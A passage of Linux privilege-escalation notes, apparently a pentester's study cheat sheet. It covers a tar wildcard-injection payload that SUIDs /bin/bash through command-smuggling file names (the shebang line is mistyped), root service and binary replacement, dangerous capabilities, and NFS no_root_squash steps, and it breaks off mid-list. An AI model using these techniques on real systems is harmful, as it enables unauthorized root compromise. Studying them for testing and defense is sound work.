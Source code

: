 Sometimes the rootbash generation did not work for me. Alternatively (*/bin/bash* with SUID):

```shell
echo '#/!bin/bash' > /var/www/html/shell.sh && echo 'chmod +s /bin/bash' >> /var/www/html/shell.sh && chmod +x /var/www/html/shell.sh && echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1
```

# ServiceExploits

- running processes from *root*: `ps aux | grep '^root'`
- use `pspy`
	- if a binary/executable run from *root* is to be replaced with a custom one, remember to assign all permissions to the latter  (`chmod 777 <binary>`)
- services listening only on *localhost*:
	- `ss -nap` (all connections)
	- `ss -ntlp` (only TCP and only listening)
	- `netstat -ano`
- service version enumeration:
	- ***verify the privileges of running programmes***
	- `<program> --version`
	- `<program> -v`
	- `dpkg -l | grep <program>`
	- `rpm -qa | grep <program>`

# Capabilities

- enumeration:
	- check if `getcap` is installed with `which getcap` (with `2>/dev/null` you might not see any errors)
	- `getcap -r / 2>/dev/null`
- dangerous capabilities: 
	- `CAP_CHOWN`
	- `CAP_DAC_OVERRIDE`
	- `CAP_DAC_READ_SEARCH`
	- `CAP_SETUID` - very "serious"
	- `CAP_SETGID` - very "serious"
	- `CAP_NET_RAW`
	- `CAP_SYS_ADMIN`
	- `CAP_SYS_PTRACE`
	- `CAP_SYS_MODULE`
	- `CAP_FORMER`
	- `CAP_SETFCAP`

# NFS

Steps:
1. enumeration NFS share:  `cat /etc/exports`. Identify those that have the `no_root_squash` option enabled
2. verify that the share can be accessed by attacker: `showmount -e <target>`
3. exploit: two options
